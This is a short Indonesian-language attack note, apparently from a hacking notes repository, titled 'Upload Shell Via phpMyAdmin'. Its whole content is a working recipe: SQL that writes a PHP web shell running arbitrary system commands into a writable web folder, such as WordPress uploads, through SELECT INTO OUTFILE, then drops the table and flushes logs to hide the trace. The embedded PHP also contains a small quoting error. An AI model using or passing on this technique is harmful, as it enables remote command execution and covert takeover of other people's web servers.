 # Upload Shell Via phpMyAdmin
Syarat :
* Harus tau writable folder, misal `/var/www/html` atau `/var/www/html/web/customdir`

Command :

```
use mydb;
CREATE TABLE temptab (codetab text);
INSERT INTO temptab (codetab) values ("<?php if(isset($_REQUEST['cmd'])){ echo '<pre>'; $cmd = ($_REQUEST['cmd']); system($cmd); echo '</pre>''; die; }?>");
SELECT * INTO OUTFILE '/var/www/html/wordpress/upload.php' from temptab
DROP TABLE temptab;
FLUSH LOGS;

```

Perintah diatas tidak harus menggunakan db `mydb`, bisa yang lain, contohnya db `mysql`. Perhatikan perintah pada `SELECT * INTO OUTFILE` ini yang dimaksud bahwa kita harus mencari writable folder, cari terus sampai dapat. Kalau wordpress biasanya di folder uploads